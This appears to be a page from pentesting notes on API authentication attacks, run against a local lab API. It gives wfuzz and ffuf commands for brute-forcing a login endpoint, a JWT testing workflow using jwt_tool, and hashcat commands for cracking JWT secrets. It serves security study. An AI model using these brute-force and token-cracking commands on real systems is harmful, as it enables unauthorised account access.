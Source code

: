 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Authentication Attacks

## Classic Attacks

Brute-forcing/Password-spraying with Intruder (if Burp Pro is available) or [`ffuf`](../../../../tools/tools/web/dirbusting/fuff.md)/`wfuzz`.

<figure><img src="../../../../.gitbook/assets/api_auth_attacks_classic.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Fuzzing with wfuzz
wfuzz -u http://127.0.0.1:8888/identity/api/auth/login -X POST -d '{"email":"testuser@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -w pass

# Fuzzing with ffuf
ffuf -u http://127.0.0.1:8888/identity/api/auth/login -X POST -d '{"email":"testuser@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -w pass -c
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/api_auth_attacks_ffuf.png" alt=""><figcaption></figcaption></figure>

## API Token Attacks

### Entropy Analysis

<figure><img src="../../../../.gitbook/assets/api_token_entropy_analysis.png" alt=""><figcaption></figcaption></figure>

If it is a kind-of-predictable token we try brute-forcing it with Intruder.

### JWTs

Characteristics:

* Base64 encoded
* Starts with `ey`
* Has 3 sections: header, payload, signature
* Can be decoded using [https://jwt.io/](https://jwt.io/\)) or using [`jwt_tool.py`](https://github.com/ticarpi/jwt\_tool)

<figure><img src="../../../../.gitbook/assets/jwt_io.png" alt=""><figcaption></figcaption></figure>

Common Workflow:

1. Recon -> decode the token to see what's in it.
2. Scan -> run a Playbook Scan against the app to check for common misconfigurations
3. Exploit -> If any vulnerability is found try to exploit it
4. Fuzz -> Check for unexpected values and claims to identify unexpected app behaviours
5. Review -> Check the logs of any successful exploitation

{% code overflow="wrap" %}
```bash
# 1. Recon
$ jwt_tool.py eyJ...<SNIP>...jmg

Original JWT:

=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "RS256"

Token payload values:
[+] sub = "testuser@email.com"
[+] role = "user"
[+] iat = 1717597214    ==> TIMESTAMP = 2024-06-05 15:20:14 (UTC)
[+] exp = 1718202014    ==> TIMESTAMP = 2024-06-12 15:20:14 (UTC)

Seen timestamps:
[*] iat was seen
[*] exp is later than iat by: 7 days, 0 hours, 0 mins

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------

# 2. Playbook Scan
$ jwt_tool.py -rh "Authorization: Bearer eyJ...<SNIP>...2Tw"  -t http://127.0.0.1:8888/identity/api/v2/user/dashboard -M pb

<SNIP>
Scanning mode completed: review the above results.

The following additional checks should be performed that are better tested manually:
[+] Try testing HS token against weak password configurations by running the following hashcat cracking options:
(Already testing against passwords in jwt-common.txt)
Try using longer dictionaries, custom dictionaries, mangling rules, or brute force attacks.
hashcat (https://hashcat.net/hashcat/) is ideal for this as it is highly optimised for speed. Just add your JWT to a text file, then use the following syntax to give you a good start:

[*] dictionary attacks: hashcat -a 0 -m 16500 jwt.txt passlist.txt
[*] rule-based attack:  hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule
[*] brute-force attack: hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6
[+] Try waiting for the token to expire ("exp" value set to: 2024-06-12 19:11:05 (UTC))
Check if still working once expired.
```
{% endcode %}
